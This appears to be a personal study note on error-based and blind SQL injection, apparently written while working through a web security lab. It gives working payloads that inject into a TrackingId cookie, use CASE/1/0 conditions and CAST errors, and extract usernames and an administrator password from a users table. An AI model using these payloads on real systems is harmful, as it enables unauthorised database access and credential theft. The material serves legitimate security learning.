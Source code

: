 ```yaml
---
title: ERROR BASED INJECTION
updated: 2023-11-06 06:02:00Z
created: 2023-11-05 05:06:23Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


This type of query may also be useful if a character limit prevents you from triggering conditional responses.  
`CAST((SELECT my_column FROM my_table) AS int)`

ERROR: invalid input syntax for type integer: "Example data"

1.  Test with valid and invalid url  
    `?id=1` , then `?id=1'`  
    If an error is produced, locate the backend query using the error  
    For example:  
    `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'DehTc2iFswnnNSMn''. Expected char`

## BLIND SQL attacks using conditional ERRORS

`' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'--`  
**CASE** expression evaluates to 'a', which does not cause any error

`' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'--`  
**CASE** evaluates to 1/0, which causes a divide-by-zero error.

These inputs use the **CASE** keyword to test a condition and return a different expression depending on whether the expression is **True**:

Using this technique, you can retrieve data by testing one character at a time:  
`' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'--`

Find a GET / request that contains a **TrackingId** cookie.
In **Repeater**, append a single quote to the value of your TrackingId cookie and send the request.
`TrackingId=ogAZZfxtOKUELbuJ'`

In the response, notice the verbose error message.

In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:
Confirm no errors:
`TrackingId=ogAZZfxtOKUELbuJ'--`

`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
Observe that you now get a different error saying that an AND condition must be a boolean expression.
Modify the condition accordingly. For example, you can simply add a comparison operator (=) as follows:

`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
Confirm that you no longer receive an error. This suggests that this is a valid query again.

Adapt your generic SELECT statement so that it retrieves usernames from the database:
`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.

`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
Modify the query to return only one row:
`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
Observe that the error message now leaks the first username from the users table:

ERROR: invalid input syntax for type integer: "administrator"
Now that you know that the administrator is the first user in the table, modify the query once again to leak their password:
`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
